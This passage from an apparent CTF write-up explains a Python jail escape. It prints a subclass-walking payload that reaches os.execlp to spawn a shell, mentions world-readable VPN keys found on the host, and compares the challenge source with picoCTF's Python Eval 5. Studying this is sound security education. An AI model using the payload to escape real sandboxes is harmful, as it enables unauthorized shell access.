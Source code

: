 	().__class__.__bases__[0].__subclasses__()[48].__init__.__globals__['linecache'].os.execlp('sh','')

However, this was running in a different Python environment, so it wasn't clear what the class at index 48 was supposed to be. I checked a few numbers around it and found that 52, `warningmessage`, worked.

	().__class__.__bases__[0].__subclasses__()[52].__init__.__globals__['linecache'].os.execlp('sh','')

Now we had a shell, and in the root directory, which is why `flag.txt` was not found. The flag was located at `/home/john/flag.txt`. We should have checked that path earlier.

Having solved the problem, we explored the system a bit and found some world-readable VPN configuration files and client keys(!) in `/ov/oooooo`. We also discovered that flag.txt and exploit300.py were writable by the `john` user. Though tempting, we didn't modify either. In short, this wasn't much of a sandbox.

When trying to find the pyjail solution we referenced, we came across a writeup for picoCTF's Python Eval 5, and discovered that this problem was identical down to the indentation style, apart from a comment, the prompt text, and the allowed length:

	#!/usr/bin/python -u                            | from sys import modules
	# task5.py                                      | modules.clear()
	# A real challenge for those python masters out | del modules
	                                                |
	from sys import modules                         | _raw_input = raw_input
	modules.clear()                                 | _BaseException = BaseException
	del modules                                     | _EOFError = EOFError
	                                                |
	_raw_input = raw_input                          | # he-he
	_BaseException = BaseException                  | __builtins__.__dict__.clear()
	_EOFError = EOFError                            | __builtins__ = None
	                                                |
	__builtins__.__dict__.clear()                   | print '>>> Just escape me...'
	__builtins__ = None                             |
	                                                | while 1:
	print 'Get a shell, if you can...'              |   try:
	                                                |     d = {'x':None}
	while 1:                                        |     exec 'x='+_raw_input()[:500] in d
	  try:                                          |     print 'ret:', d['x']
	    d = {'x':None}                              |   except _EOFError, e:
	    exec 'x='+_raw_input()[:50] in d            |     raise e
	    print 'Return Value:', d['x']               |   except _BaseException, e:
	  except _EOFError, e:                          /     print 'Exception:', e
	    raise e                                     <
	  except _BaseException, e:                     <
	    print 'Exception:', e                       <


